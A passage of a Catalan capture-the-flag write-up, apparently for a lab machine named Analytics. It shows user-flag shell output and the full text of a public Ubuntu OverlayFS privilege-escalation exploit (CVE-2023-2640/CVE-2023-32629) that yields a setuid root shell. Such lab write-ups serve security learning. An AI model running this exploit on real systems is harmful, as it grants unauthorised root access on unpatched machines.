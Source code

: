 
Ens ha funcionat correctament i hem obtingut accés amb l’usuari metalytics i ara anem al home per obtenir la **flag de l'user** del fitxer user.txt:

``metalytics@analytics:~$ cd /home

metalytics@analytics:/home$ ls

metalytics

metalytics@analytics:/home$ cd metalytics/

metalytics@analytics:~$ ls

exploit.sh l linpeas.sh m u user.txt w

metalytics@analytics:~$ cat user.txt

7bb654b686d61b2a22769b84865ed047

metalytics@analytics:~$``

-Amb la comanda uname -a veiem el següent:

```
`uname -a

Linux 6df4a1828569 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 Linux`
```


Si agafem i copiem des del coixinet a internet amb el navegador podrem trobar un CVE per tenir permisos d’administrador i trobem aquest exploit:

[https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)

I ara creem un directori i hi posem l’exploit a dins, creem el fitxer amb nano exploit.sh:

``metalytics@analytics:~/MARTIKO$ cat exploit.sh``

```
`#!/bin/bash

CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation

by g1vi https://github.com/g1vi

October 2023

  
echo "[+] You should be root now"

echo "[+] Type 'exit' to finish and leave the house cleaned"


unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'`
```
